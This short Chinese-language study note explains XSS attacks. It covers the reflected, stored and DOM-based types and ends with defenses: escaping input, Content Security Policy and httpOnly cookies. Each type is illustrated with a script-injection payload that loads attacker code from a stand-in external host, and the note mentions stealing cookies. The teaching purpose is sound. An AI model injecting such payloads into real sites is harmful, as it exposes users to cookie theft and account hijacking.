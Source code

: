 ```yaml
---
sidebar:
group:
title: xss攻击
isTimeLine: true
date: 11-10-2023
---
```

# xss攻击

## XSS 跨站脚本攻击

指攻击者在网页中注入恶意代码，在用户浏览网页的时候进行攻击。

类型：

反射型（非持久性）

原理：将攻击代码放在 url 地址的请求参数中，其他用户访问该恶意链接时，服务端在 URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

要点：

通过 URL 插入恶意代码。
有服务端参与。
需要用户访问特定链接。
例子：

攻击者诱导被害者打开链接 hzfe.org?name=<script src="http://a.com/attack.js"/>。

被攻击网站服务器收到请求后，未经处理直接将 URL 的 name 字段直接拼接至前端模板中，并返回数据。

被害者在不知情的情况下，执行了攻击者注入的脚本（可以通过这个获取对方的 Cookie 等）。

存储型（持久性）

原理：攻击者将注入型脚本提交至被攻击网站数据库中，当其他用户浏览器请求数据时，注入脚本从服务器返回并执行。

要点：

恶意代码存储在目标网站服务器上。
有服务端参与。
只要用户访问被注入恶意脚本的页面时，就会被攻击。
例子：

攻击者在目标网站留言板中提交了 <script src="http://a.com/attack.js"/>。

目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过 innerHTML 渲染到页面中。

其他用户在访问该留言板时，会自动执行攻击者注入脚本。

DOM 型

原理：攻击者通过在 URL 插入恶意代码，客户端脚本取出 URL 中的恶意代码并执行。

要点：在客户端发生。

例子：

攻击者诱导被害者打开链接 hzfe.org?name=<script src="http://a.com/attack.js"/>。

被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。

被害者在不知情的情况下，执行了攻击者注入的脚本。

防范 XSS：

对于外部传入的内容进行充分转义。
开启 CSP（Content Security Policy，内容安全策略），规定客户端哪些外部资源可以加载和执行，降低 XSS 风险。
设置 Cookie httpOnly 属性，禁止 JS 读取 Cookie 防止被窃取。
#


















